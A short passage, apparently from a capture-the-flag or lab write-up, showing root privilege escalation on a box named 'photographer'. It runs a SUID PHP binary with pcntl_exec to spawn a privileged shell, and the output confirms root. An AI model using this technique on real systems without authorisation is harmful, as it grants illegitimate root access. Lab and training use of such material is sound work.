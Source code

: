 **Escalate privileges to root using the PHP SUID binary (see [https://gtfobins.github.io/gtfobins/php/](https://gtfobins.github.io/gtfobins/php/?ref=rootandbeer.com)):**

```bash
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
whoami
root
```

---
